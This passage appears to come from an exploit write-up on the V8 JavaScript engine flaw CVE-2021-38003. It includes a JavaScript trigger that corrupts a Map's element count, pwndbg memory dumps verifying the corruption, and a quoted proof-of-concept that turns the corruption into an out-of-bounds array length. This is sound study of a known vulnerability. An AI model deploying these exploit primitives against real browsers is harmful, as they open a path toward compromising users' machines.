 The value that the exploit in the Chromium bug sets to -1 is the element count (as we can see in the code [here](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/builtins/builtins-collections-gen.cc;l=1710;drc=63cb7fb817e60e5633fb622baf18c59da7a0a682), linked to in the bug). We can verify that this is the case by running the code from the Chromium bug and then printing the memory of the map in GDB.

```js
let hole = [].hole();
let map = new Map();

map.set(1, 1);
map.set(hole, 1);
map.delete(hole);
map.delete(hole);
map.delete(1);

%DebugPrint(map);
%SystemBreak();
```
```
0x1f0400048c7d <Map map = 0x1f04001855f5>
Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.

pwndbg> x/4wx 0x1f0400048c7c
                   /*  map            properties      elements       table */
0x1f0400048c7c:	0x001855f5	0x00002259	0x00002259	0x00048c8d
pwndbg> x/4wx 0x1f0400048c8c
                   /*  map            length          next table     deleted element count */
0x1f0400048c8c:	0x00002c29	0x00000022	0x00048cd9    	0x00000004
pwndbg> x/4wx 0x1f0400048cd8
                   /*  map            length          next table     deleted element count */
0x1f0400048cd8:	0x00002c29	0x00000022	0x00048d25     0x00000002
pwndbg> x/4wx 0x1f0400048d24
                   /*  map            length          element count  deleted element count */
0x1f0400048d24:	0x00002c29	0x00000022	0xfffffffe     0x00000000
```

As we can see the element count is indeed -1 (whose tagged representation is 0xfffffffe).

Now how do we exploit this? I searched online for the CVE number referenced in the Chromium bug report (CVE-2021-38003) and found [this article by Numen Cyber Labs](https://medium.com/numen-cyber-labs/from-leaking-thehole-to-chrome-renderer-rce-183dcb6f3078) which has some more details on how to exploit the vulnerability. The article provides a PoC exploit which sets the length of an array to 0xffff.

```js
let hole = [].hole();
let map = new Map();
map.set(1, 1);
map.set(hole, 1);
map.delete(hole);
map.delete(hole);
map.delete(1);
let a = new Array(1.1, 1.1);

map.set(0x10, -1);
map.set(a, 0xffff);
console.log(a.length);
```
